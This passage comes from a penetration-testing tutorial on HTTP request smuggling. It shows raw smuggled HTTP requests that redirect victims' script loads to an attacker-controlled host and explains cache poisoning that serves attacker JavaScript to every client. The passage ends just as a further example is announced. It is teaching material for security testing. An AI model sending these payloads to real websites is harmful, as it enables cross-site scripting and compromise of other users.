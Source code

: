 `GET /home HTTP/1.1`\
`Host: normal-website.com`\
\`\`\
`HTTP/1.1 301 Moved Permanently`\
`Location: https://normal-website.com/home/`

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Length: 54`\
`Connection: keep-alive`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /home HTTP/1.1`\
`Host: attacker-website.com`\
`Foo: X`

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

`GET /home HTTP/1.1`\
`Host: attacker-website.com`\
`Foo: XGET /scripts/include.js HTTP/1.1`\
`Host: vulnerable-website.com`\
\`\`\
`HTTP/1.1 301 Moved Permanently`\
`Location: https://attacker-website.com/home/`

Here, the user's request was for a JavaScript file that was imported by a page on the web site. The attacker can fully compromise the victim user by returning their own JavaScript in the response.

### Using HTTP request smuggling to perform web cache poisoning <a href="#using-http-request-smuggling-to-perform-web-cache-poisoning" id="using-http-request-smuggling-to-perform-web-cache-poisoning"></a>

If any part of the **front-end infrastructure performs caching of content** (generally for performance reasons) the it **might be possible to poison that cache modifying the response of the server**.

We have already see how to modify the expected returned value from the server to a 404 (in the [Basic Examples](./#basic-examples)), in a similar way you could make the server return the content of /index.html when the poisoned request is asking for `/static/include.js` . This way, the content of the `/static/include.js` will be cached with the content of `/index.html` making `/static/include.js` inaccessible to the clients (DoS?).

Notice this is even more interesting if you find some **Open Redirect** or some **on-site redirect to open redirect** (last section). Because, you could be able to **change the cache values** of `/static/include.js` with the **ones of a script controlled by you** (making a **general XSS to all the clients** that try to download the new version of`/static/include.js`).

In this example it's going to be shown how you can exploit a **cache poisoning + on-site redirect to open redirect** to modify the contents of the cache of `/static/include.js` to **serve JS code controlled** by the attacker:
